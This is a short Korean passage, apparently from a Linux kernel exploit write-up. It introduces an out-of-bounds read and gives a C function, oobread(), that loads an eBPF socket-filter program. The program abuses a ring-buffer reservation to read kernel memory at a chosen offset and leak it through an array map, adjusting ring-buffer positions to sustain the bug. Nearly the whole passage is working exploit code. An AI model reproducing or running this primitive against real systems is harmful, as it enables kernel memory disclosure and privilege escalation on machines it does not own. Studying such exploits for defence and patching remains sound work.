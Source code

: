 oob read 입니다. `bpf_lookup_elem` 함수를 통해 map에 있는 값을 읽어올 수 있습니다.

```c
uint64_t oobread(int offset){
	adjust_prod_pos();
struct bpf_insn prog[] = {
	  BPF_MOV64_IMM(BPF_REG_0, 0),                  // 
	  BPF_LD_MAP_FD(BPF_REG_1, mapfd1),             // BPF_MAP_TYPE_RINGBUF mapfd
    BPF_MOV64_IMM(BPF_REG_2, 0x20000000-8),       // r2 = 0x20000000-8 (size)
    BPF_MOV64_IMM(BPF_REG_3, 0), 									// r3 = 0 (flag)
    BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_ringbuf_reserve),
  	BPF_MOV64_REG(BPF_REG_4,BPF_REG_0),
  
	  BPF_MOV64_REG(BPF_REG_2, BPF_REG_0),          // r2 = r0 alloc_mem
	  BPF_ALU64_IMM(BPF_ADD, BPF_REG_2,offset),  // r3 = *(DWORD *)(r2+offset)
	  BPF_LDX_MEM(4,BPF_REG_3,BPF_REG_2,0),         
	  BPF_LD_IMM64_RAW_FULL(BPF_REG_7,BPF_PSEUDO_MAP_VALUE,0,0,array_mapfd,0), // array_mapfd to get output
	  BPF_STX_MEM(4,BPF_REG_7,BPF_REG_3,0),         // *(DWORD *)(r7+0) = r3
	  BPF_LDX_MEM(4,BPF_REG_3,BPF_REG_2,4),         // r3 = *(DWORD *)(r2+offset+4) 
	  BPF_STX_MEM(4,BPF_REG_7,BPF_REG_3,4),         // *(DWORD *)(r7+4) = r3
  
    BPF_MOV64_REG(BPF_REG_1, BPF_REG_4),
    BPF_MOV64_IMM(BPF_REG_2, 0),
	  BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0,BPF_FUNC_ringbuf_discard),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN()
	};
	int progfd = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, prog, sizeof(prog) / sizeof(struct bpf_insn), "GPL");
	logprint();
	if(progfd==-1){
		puts("oob read fail");
	  	return -1;
	}
	runprog(progfd);
	int key=0,ret;
	uint64_t value=0;
	uint32_t *values=calloc(1,0x300);
	
	ret = bpf_lookup_elem(array_mapfd,&key,values);
	value =*(uint64_t *)(values);
	free(values);
	expected_prod_pos+=0x20000000;
	*(uint64_t *)((uint8_t *)cons_pos) += 0x20000000; 
	close(progfd);
	return value;

}
```


